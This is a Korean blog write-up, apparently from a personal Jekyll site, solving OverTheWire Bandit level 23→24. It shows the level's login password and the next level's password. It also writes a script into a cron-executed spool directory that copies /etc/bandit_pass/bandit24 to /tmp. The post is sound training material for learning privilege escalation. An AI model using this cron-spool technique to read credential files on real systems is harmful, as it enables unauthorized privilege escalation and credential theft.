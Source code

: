 ```yaml
---
layout: post
title: "[Bandit] Level 23 → 24 풀이"
date: 2025-07-05 09:04:00 +0900
categories: [bandit]
tags: [overthewire, bandit, linux, cron, shell-script]
---
```


> 📝 **공식 문제 (Level 23 → 24)**
>
> **Level Goal**
> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.
>
> **Commands you may need to solve this level**
> `cron`, `crontab`, `cronjob`

---

## 🔐 Level Info

- **접속 정보**
  - 사용자: `bandit23`
  - 비밀번호: `YkH2SGAfH11sQ17GvD2sXnoP9i4vGg02`
  
- **접속 명령어**

  ```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
  ```

---

## 🧪 풀이 과정

1.  `/etc/cron.d/cronjob_bandit24` 확인. `/var/spool/bandit24` 디렉토리의 모든 실행 파일을 1분마다 실행하는 것을 파악
2.  `/tmp` 디렉토리에 다음 레벨의 비밀번호를 읽어 다른 `/tmp` 파일에 저장하는 쉘 스크립트 작성
3.  작성한 스크립트를 `/var/spool/bandit24` 디렉토리에 복사하고 실행 권한 부여
4.  1분 정도 기다린 후, 결과가 저장된 `/tmp` 파일의 내용을 확인

```bash
# 스크립트 작성
bandit23@bandit:~$ echo '#!/bin/sh' > /tmp/hamap.sh
bandit23@bandit:~$ echo 'cat /etc/bandit_pass/bandit24 > /tmp/hamap_pass' >> /tmp/hamap.sh

# 스크립트 복사 및 권한 부여
bandit23@bandit:~$ cp /tmp/hamap.sh /var/spool/bandit24/
bandit23@bandit:~$ chmod +x /var/spool/bandit24/hamap.sh

# 결과 확인
bandit23@bandit:~$ sleep 60; cat /tmp/hamap_pass
```

---

## 🎯 결과

<details markdown="1">
<summary>👀 클릭하여 비밀번호 확인하기</summary>

```bash
D2J41fb8mpcr9hjsf32ECf2d012eK2g9
```

</details>

---

##💡 배운 점
1. 쉘 스크립트 작성: 원하는 명령어들을 파일로 만들어 순차적으로 실행할 수 있음.
2. chmod +x [파일명]: 파일에 실행 권한을 부여함.

---


